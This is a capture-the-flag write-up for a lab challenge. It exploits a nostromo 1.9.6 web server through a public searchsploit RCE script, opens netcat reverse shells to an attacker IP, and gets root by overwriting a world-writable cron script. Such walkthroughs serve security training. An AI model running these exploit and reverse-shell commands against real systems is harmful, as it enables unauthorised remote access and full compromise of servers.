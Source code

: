 # My First Blog
## Description:
```
Here is a link to my new blog! I read about a bunch of exploits in common server side blog tools so I just decided to make my website static. Hopefully that should keep it secure.

Root owns the flag.
```

## Nikto:
```
# nikto -host http://172.30.0.2/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          172.30.0.2
+ Target Hostname:    172.30.0.2
+ Target Port:        80
+ Start Time:         2020-03-27 13:53:37 (GMT1)
---------------------------------------------------------------------------
+ Server: nostromo 1.9.6
...
```
`Nikto` reveals, that `nostromo 1.9.6` is installed.

## searchsploit nostromo:
So we can search for exploits for nostromo using `searchsploit`.
```
# searchsploit nostromo
...
nostromo 1.9.6 - Remote Code Execution | exploits/multiple/remote/47837.py
...
# searchsploit -m exploits/multiple/remote/47837.py
```

## Reverse shell listener on port 1234:
To have a functional shell on the machine, we need to setup a listener for our reverse shell first. This can be done with `nc`.
```
# nc -lvnp 1234
listening on [any] 1234 ...
```

## Exploit
```
# python 47837.py 172.30.0.2 80 "nc 172.30.0.14 1234 -e /bin/bash"
...

connect to [172.30.0.14] from (UNKNOWN) [172.30.0.2] 45418
id
uid=1000(webserver) gid=1000(webserver) groups=1000(webserver)
```

## Privilege Escalation
After examining the files on the victim, I found the following:
```
# cat /etc/crontab
...
* * * * * root /usr/bin/healthcheck
...
```

Here we can see, that the root user has a cronjob on calling `/usr/bin/healthcheck`. Let's check the permissions on that file:
```
# ls -la /usr/bin/healthcheck
-rwxrwxrwx 1 root root 98 Mar 19 18:41 /usr/bin/healthcheck
```

It belongs to the root user and is world writable. This means, that we can just overwrite it:
```
# echo "#!/bin/bash" > /usr/bin/healthcheck
# echo -n "nc 172.30.0.14 4444 -e /bin/bash" >> /usr/bin/healthcheck
```

The next time `/usr/bin/healthcheck` is called, it will pop our reverse shell, which we just need to start the listener on port 4444:

```
# nc -lvnp 4444
listening on [any] 4444
connect to [172.30.0.14] from (UNKNOWN) [172.30.0.2] 36338

# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/flag.txt
gigem{l1m17_y0ur_p3rm15510n5}
```
